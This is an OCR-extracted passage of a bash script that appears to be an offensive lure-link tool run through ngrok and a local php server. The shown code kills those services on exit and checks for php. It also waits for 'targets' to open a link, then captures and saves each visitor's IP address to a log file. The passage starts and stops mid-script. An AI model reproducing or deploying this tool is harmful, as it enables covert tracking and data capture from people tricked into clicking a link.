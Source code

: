 pkill -f -2 ngrok > /dev/null 2>&1

killall -2 ngrok > /dev/null 2>&1

fi

if [[ $checkphp == *'php'* ]]; then

killall -2 php > /dev/null 2>&1

fi

if [[ $checkssh == *'ssh'* ]]; then

killall -2 ssh > /dev/null 2>&1

fi

exit 1

}

dependencies() {

command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }

 

}

catch_ip() {

ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')

IFS=$'\n'

printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n" $ip

cat ip.txt >> saved.ip.txt

}

checkfound() {

printf "\n"

printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting targets,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"

while [ true ]; do

if [[ -e "ip.txt" ]]; then

printf "\n\e[1;92m[\e[0m+\e[1;92m] Target opened the link!\n"

catch_ip

rm -rf ip.txt

fi

sleep 0.5

if [[ -e "Log.log" ]]; then
